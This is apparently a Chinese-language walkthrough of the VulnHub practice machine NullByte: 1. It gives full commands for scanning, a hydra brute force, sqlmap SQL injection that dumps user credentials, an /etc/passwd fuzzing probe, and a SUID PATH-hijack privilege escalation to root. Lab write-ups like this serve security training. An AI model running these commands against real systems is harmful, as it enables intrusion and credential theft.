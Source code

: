 # NullByte: 1

2024-6-9 https://www.vulnhub.com/entry/nullbyte-1,126/

difficulty: Basic to intermediate

## IP

192.168.5.32

## Scan

Open Port -> 80,111,777,37492

```
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Null Byte 00 - level 1
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37492/tcp   status
|   100024  1          41725/udp6  status
|   100024  1          46267/udp   status
|_  100024  1          56438/tcp6  status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 163013d9d55536e81bb7d9ba552fd744 (DSA)
|   2048 29aa7d2e608ba6a1c2bd7cc8bd3cf4f2 (RSA)
|   256 6006e3648f8a6fa7745a8b3fe1249396 (ECDSA)
|_  256 bcf7448d796a194876a3e24492dc13a2 (ED25519)
37492/tcp open  status  1 (RPC #100024)
```

重点看 80web 服务吧，首页没内容，源码也没提示，使用 gobuster 进行扫描:

```
gobuster -t 32 dir -u http://192.168.5.32/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html,zip -e

http://192.168.5.32/uploads
http://192.168.5.32/phpmyadmin
```

phpmyadmin 没有用户名和密码，暂时不能登陆，uploads 提示：Directory listing not allowed here.

探测下是否有隐藏的上传参数：

```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.5.32/uploads?FUZZ=/etc/passwd -fs 2309
```

没找到。

在观察首页上，有一个类似眼睛的图片，看看能否是有图片隐写：

```
exiftool main.gif

Comment: P-): kzMb5nVYJw
```

kzMb5nVYJw 像是个密码或者是个 url 目录，访问 http://192.168.5.32/kzMb5nVYJw/ 出现了一个输入 key 的窗口，查看下 html 的源码提示： this form isn't connected to mysql, password ain't that complex。根据提示应该是个固定的简单密码，尝试用 hydra + 密码字典进行爆破。

找到 key 为 elite, 输入后，显示了一个 username 搜索的页面，链接为 http://192.168.5.32/kzMb5nVYJw/420search.php?usrtosearch=ramses" 报错， usrtosearch 处可能存在 sql 注入，使用 sqlmap 进行扫描：

```
sqlmap -u 'http://192.168.5.32/kzMb5nVYJw/420search.php?usrtosearch=ramses' --batch --dbs

[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] seth

sqlmap -u 'http://192.168.5.32/kzMb5nVYJw/420search.php?usrtosearch=ramses' --batch -D seth -T users --dump

----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
```

看看能不能找到 YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE 是 base64，转码后为 c6d6bd7ebf806f43c76acc3681703b81 对应的明文密码 omega 尝试用此凭据，登陆 ssh

ramses:omega 能够成功登陆 ssh。查看 .bash_history 中有一些历史操作提示：

```
cd /var/www
cd backup/
ls
./procwatch
clear
sudo -s
```

procwatch 是 suid 程序。

执行后显示：

```
  PID TTY          TIME CMD
20866 pts/0    00:00:00 procwatch
20867 pts/0    00:00:00 sh
20868 pts/0    00:00:00 ps
```

应该是调用的系统 ps 命令并且没有用绝对路径,进行利用：

```
ramses@NullByte:/var/www/backup$ echo '/bin/sh' > ps    # 这里如果使用/bin/bash 不能得到root权限，不知道是什么原因必须用/bin/sh
ramses@NullByte:/var/www/backup$ chmod +x ps
ramses@NullByte:/var/www/backup$ ./procwatch
# id
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)

# cat proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats.
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----
```
